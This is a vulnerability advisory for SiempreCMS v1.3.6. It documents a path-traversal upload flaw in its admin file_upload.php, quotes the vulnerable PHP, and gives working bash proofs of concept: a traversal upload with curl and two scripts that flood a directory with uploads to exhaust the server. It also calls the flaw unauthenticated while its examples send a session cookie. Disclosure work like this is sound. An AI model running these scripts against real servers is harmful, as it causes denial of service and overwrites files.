

# Unauthenticated File Upload Allows Server Flooding – SiempreCMS

- **Type:** Arbitrary File Upload / Resource Exhaustion  
- **Location:** `docs/admin/file_upload.php`  
- **Impact:** An attacker can upload files to arbitrary directories under `../media/`, including hidden module directories. While uploaded files cannot be executed as PHP scripts in this setup, the vulnerability allows **flooding a specific directory with large numbers of files**, potentially exhausting disk space, degrading server performance, or causing denial-of-service conditions.  
- **Product:** *[SiempreCMS v1.3.6](https://github.com/SiempreCMS/SiempreCMS)*
---

## Vulnerable Code Analysis

```php
if (isset($_POST['folder-path']) && substr($_POST['folder-path'], 0, 9) == '../media/') {
	$path = $_POST['folder-path'];
} else {
	$status = 'Bad request in folder path!';
	echo json_encode(array('status' => $status));
	exit();
}

if ($_SERVER['REQUEST_METHOD'] === 'POST' && @is_uploaded_file($_FILES['image']['tmp_name'])) {
	$ext = strtolower(pathinfo($_FILES['image']['name'], PATHINFO_EXTENSION));
	if (in_array($ext, $valid_exts) AND $_FILES['image']['size'] < $max_size) {
		$path = $path . $_FILES['image']['name'];
		if (move_uploaded_file($_FILES['image']['tmp_name'], $path)) {
			$status = 'Image successfully uploaded!';
		} else {
			$status = 'Upload Fail: Unknown error occurred!';
		}
	} else {
		$status = 'Upload Fail: Unsupported file format or It is too large to upload!';
	}
} else {
	$status = 'Upload Fail: File not uploaded!';
}
```

### Analysis
**Folder Path Control:** The code allows uploading files to any directory that begins with ``../media/.`` By manipulating folder-path, attackers can reach hidden or sensitive directories such as ``modules/helloworld/``.

#### **File Type & Size Validation:**

-    Only extensions in ``['jpeg','jpg','png','gif','doc','docx','pdf']`` are allowed.
-    Maximum size is 1600 KB.
-    While this prevents arbitrary PHP execution, it does not prevent mass upload of allowed files.
-    No Filename Sanitization: The uploaded file name is directly concatenated to the path, allowing overwriting existing files.
-    No Execution: Uploaded files cannot be executed as PHP code in this configuration.

---
### Proof of Concept Arbitrary File Upload / Resource Exhaustion (Flooding)
#### Exploit 1: Basic Upload
-    This PoC demonstrate a file upload in other directories.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ curl -X POST \
 -b "PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl" \
 -F "folder-path=../media/../../modules/helloworld/" \
 -F "image=@sample.txt.jpeg;filename=shell.txt.jpeg" \
 http://localhost/SiempreCMS/docs/admin/file_upload.php

{"status":"Image successfully uploaded!"}
```

**Evidence:**
</br>



#### Exploit 2: Directory Flooding
-    This PoC demonstrates uploading a large number of files to the vulnerable directory, which can consume server resources and slow down the application.

```bash
# Flood the modules/helloworld/ directory with 999999999 files
NUM_FILES=999999999

for i in $(seq 1 $NUM_FILES); do
  # Generate a sample file
  echo "This is test file $i" > sample_$i.txt
  # Rename with allowed extension
  mv sample_$i.txt sample_$i.txt.jpeg
  # Upload file
  curl -s -X POST \
   -b "PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl" \
   -F "folder-path=../media/../../modules/helloworld/" \
   -F "image=@sample_$i.txt.jpeg;filename=sample_$i.txt.jpeg" \
   http://localhost/SiempreCMS/docs/admin/file_upload.php
done
```

**Evidence:**
</br>


</br>


#### Exploit 3: Infinite Flood (Runs until stopped, DoS)
-	This script never stops — it just keeps generating and uploading files until you kill it.
```bash
#!/bin/bash

# Infinite flooder - runs until manually stopped
TARGET="http://localhost/SiempreCMS/docs/admin/file_upload.php"
COOKIE="PHPSESSID=0518ouv9ppu0c8u5rvkkrcfhgl"
FOLDER_PATH="../media/../../modules/helloworld/"

i=1
while true; do
  echo "Infinite flood file $i" > flood_$i.txt
  mv flood_$i.txt flood_$i.txt.jpeg

  # Fire multiple uploads in background
  curl -s -X POST \
   -b "$COOKIE" \
   -F "folder-path=$FOLDER_PATH" \
   -F "image=@flood_$i.txt.jpeg;filename=flood_$i.txt.jpeg" \
   "$TARGET" &

  # Every 100 files, wait for background jobs to clear
  if (( $i % 100 == 0 )); then
    wait
    echo "[*] Uploaded $i files so far..."
  fi

  ((i++))
done

```

**Evidence:**
</br>


</br>


---

### Expected Outcome
-    Hundreds of files are uploaded to ``modules/helloworld/``.
-    Disk usage in the directory increases significantly.
-    Server performance may degrade due to the large number of files.
-    Existing files in the directory can be overwritten if the same filename is used.
-    No PHP execution occurs, so it’s not remote code execution.
